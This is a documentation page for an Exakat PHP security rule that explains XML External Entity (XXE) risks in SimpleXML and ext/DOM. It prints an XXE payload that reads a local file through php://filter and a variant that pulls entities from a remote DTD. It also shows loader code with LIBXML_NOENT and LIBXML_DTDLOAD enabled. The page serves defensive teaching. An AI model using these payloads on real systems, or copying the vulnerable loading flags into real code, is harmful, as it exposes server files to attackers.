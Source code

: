 .. _security-nonetforxmlload:

.. _no-net-for-xml-load:

No Net For Xml Load
+++++++++++++++++++

.. meta\:\:
	:description:
		No Net For Xml Load: Simplexml and ext/DOM load all external entities from the web, by default.
	:twitter:card: summary_large_image
	:twitter:site: @exakat
	:twitter:title: No Net For Xml Load
	:twitter:description: No Net For Xml Load: Simplexml and ext/DOM load all external entities from the web, by default
	:twitter:creator: @exakat
	:twitter:image:src: https://www.exakat.io/wp-content/uploads/2020/06/logo-exakat.png
	:og:image: https://www.exakat.io/wp-content/uploads/2020/06/logo-exakat.png
	:og:title: No Net For Xml Load
	:og:type: article
	:og:description: Simplexml and ext/DOM load all external entities from the web, by default
	:og:url: https://php-tips.readthedocs.io/en/latest/tips/Security/NoNetForXmlLoad.html
	:og:locale: en
  Simplexml and ext/DOM load all external entities from the web, by default. This is dangerous, in particular when loading unknown XML code.

Look at this XML code below : it is valid. It defines an entity ``xxe``, that is filled with a file, read on the system and base64 encoded.::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


This file could be processed with the following code : note, you can replace 'index.php' in the above entity by any valid filepath. 

 

Here, PHP tries to load the XML file, finds the entity, then solves the entity by encoding a file called ``index.php``. The source code of the file is not used as data in the XML file. 

At that point, the example illustrates how a XXE works : by using the XML `engine <https://www.php.net/engine>`_ to load external resources, and preprocessing the XML code. in fact, there is only one change to make this XML code arbitrarily injected :::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY writer SYSTEM "https://www.example.com/entities.dtd"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


With the above example, the XML code is `static <https://www.php.net/manual/en/language.oop5.static.php>`_ (as, it never changes), but the 'xxe' definitions are loaded from a remove website, and are completely under the attacker control.

.. code-block:: php
   
   <?php 
       $dom = new DOMDocument();
       $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
       $info = simplexml_import_dom($dom);
       
       print base64_decode($info[0]);
   ?>

See also `XML External Entity <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection>`_,, `XML External Entity (XXE) Processing <https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing>`_ and `Detecting and exploiting XXE in SAML Interfaces <https://web-in-security.blogspot.nl/2014/11/detecting-and-exploiting-xxe-in-saml.html>`_.

Connex PHP features
-------------------

  + `xml <https://php-dictionary.readthedocs.io/en/latest/dictionary/xml.ini.html>`_


Suggestions
___________

* Strip out any entity when using external XML
* Forbid any network to the XML engine, by configuring the XML engine without network access




Specs
_____

+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Short name   | Security/NoNetForXmlLoad                                                                                                |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Rulesets     | :ref:`All <ruleset-All>`, :ref:`Changed Behavior <ruleset-Changed-Behavior>`, :ref:`Security <ruleset-Security>`        |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Exakat since | 1.0.11                                                                                                                  |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| PHP Version  | All                                                                                                                     |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Severity     | Major                                                                                                                   |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Time To Fix  | Slow (1 hour)                                                                                                           |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Precision    | High                                                                                                                    |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Available in | `Entreprise Edition <https://www.exakat.io/entreprise-edition>`_, `Exakat Cloud <https://www.exakat.io/exakat-cloud/>`_ |
+--------------+-------------------------------------------------------------------------------------------------------------------------+


